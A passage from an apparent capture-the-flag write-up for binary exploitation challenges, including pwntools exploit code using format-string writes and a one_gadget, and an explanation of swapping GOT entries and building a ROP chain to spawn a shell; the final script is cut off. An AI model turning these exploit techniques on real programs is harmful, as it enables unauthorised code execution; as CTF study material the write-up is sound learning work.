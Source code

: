 ```python
print hex(stack_addr)

write_addr(GUESSED_BUF_POS, stack_addr - 0x50 + 0x18)
write_addr(GUESSED_BUF_POS + 8, stack_addr - 0x50 + 0x1A)
write_addr(GUESSED_BUF_POS + 0x10, stack_addr - 0x50 + 0x1C)
#14 15 16 for format $ to rewrite ret addr of fprintf

one_gadget = libc_addr + ONE_GADGET_OFF

once(cont_shoot([14,15,16],[one_gadget & 0xffff, (one_gadget >> 0x10) & 0xffff, one_gadget >> 0x20], ""))

sh.interactive()
```

## swap Returns

the program is simple, we can swap the `QWORD` given 2 addresses. The first thing that comes in my mind is to swap the `GOT table`, but the only useful part seems to be swap the `atoi` and `printf`, thus we can leak the stack address using `%p`.

The problem is that we can control almost nothing on the stack, 2 pointers that must be used for swapping, 2 bytes which is not enough to do anything. Here is where I got stucked. Then I inspect the stack and `.data` to find something useful to swap, then I found `0x400700`, which is the entry point, on the stack. Thus, if we swap the `exit` with this entry point, we can rerun the program each time we call `exit`. In this way we can shift the stack up, at the same time the values of that 2 pointers is remained on the stack, which are controllable.

Therefore, we can call set and exit for multiple times, and then call swap to swap those data to construct a ROP chain, then swap `printf` with a gadget that is putted in the stack beforehand, then call `printf` to execute our ROP.

What I did is to do it in 2 steps, in the first step I leak the libc address, and return to main function, in the second step I call `system("/bin/sh")` to getshell

Initially I want to call read directly, however, there is no `pop rdx`, so I used this 2-step way.

exp:

```python
from pwn import *

g_local=True
context.log_level='debug'

p = ELF("./swap_returns")
START_OFF = -6 + 0x90
ADD_RSP_0x38 = 0x400a46
POP_RDI_RET = 0x400a53
POP_RSI_R15_RET = 0x400a51
MAIN = 0x4008E9

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./swap_returns')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	gdb.attach(sh)
else:
	sh = remote("swap.chal.ctf.westerns.tokyo", 37567)
	e = ELF("./libc.so.6")
	ONE_GADGET_OFF = 0x4557a

def set_pointers(addr1, addr2):
	sh.send("1\n")
	sh.recvuntil("1st address: \n")
	sh.send(str(addr1) + "\n")
```
